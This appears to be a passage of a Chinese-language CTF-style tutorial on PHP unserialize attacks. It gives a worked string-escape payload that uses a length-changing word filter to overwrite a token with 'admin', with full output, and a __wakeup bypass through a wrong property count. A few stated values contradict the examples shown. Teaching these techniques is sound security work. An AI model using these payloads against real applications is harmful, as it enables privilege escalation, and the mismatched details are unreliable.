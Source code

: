 下一步,利用长度变化,已知每个fuck都会被替换为loveU,使得长度+1:

```
f=a&m=fuckfuck&t=c
O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:8:"fuckfuck";s:2:"to";s:1:"c";s:5:"token";s:4:"user";}
O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:8:"loveUloveU";s:2:"to";s:1:"c";s:5:"token";s:4:"user";}
bool(false)
```

这里过滤后字符串长度为8,而实际长度变成了10

那么如果输入44个fuck,就会使长度增加44,正好抵消了`";s:2:"to";s:1:"c";s:5:"token";s:5:"token";}` 的长度

```
f=a&m=fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:2:"to";s:1:"c";s:5:"token";s:5:"admin";}&t=c
输出
O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:220:"fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:2:"to";s:1:"c";s:5:"token";s:5:"admin";}";s:2:"to";s:1:"c";s:5:"token";s:4:"user";}
O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:220:"loveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveU";s:2:"to";s:1:"c";s:5:"token";s:5:"admin";}";s:2:"to";s:1:"c";s:5:"token";s:4:"user";}
object(message)#2 (4) { ["from"]=> string(1) "a" ["msg"]=> string(220) "loveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveU" ["to"]=> string(1) "c" ["token"]=> string(5) "admin" }
```

这里, 过滤前的msg的值为44个fuck加上 `";s:2:"to";s:1:"c";s:5:"token";s:5:"token";}`,总长度为220

那么44个fuck被替换成44个loveU之后,总长度也正好是220, 这样反序列化的时候,因为长度对的上,就会认为`msg`的值就是这44个loveU

这样后面的 `";s:2:"to";s:1:"c";s:5:"token";s:5:"token";}`也会在反序列化时被解析为属性和属性值,这样就完成了对原有`token`值得覆盖. 



## `__wake_up`失效

当成员属性数量和实际的属性数量不一致的时候,可以绕过`__wakeup方法`,例如:

```
O:4:"Name":3:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
```

这里属性数量为3,而实际的属性有4个, 这样`__wakeup方法`就不会被调用





<br>

***
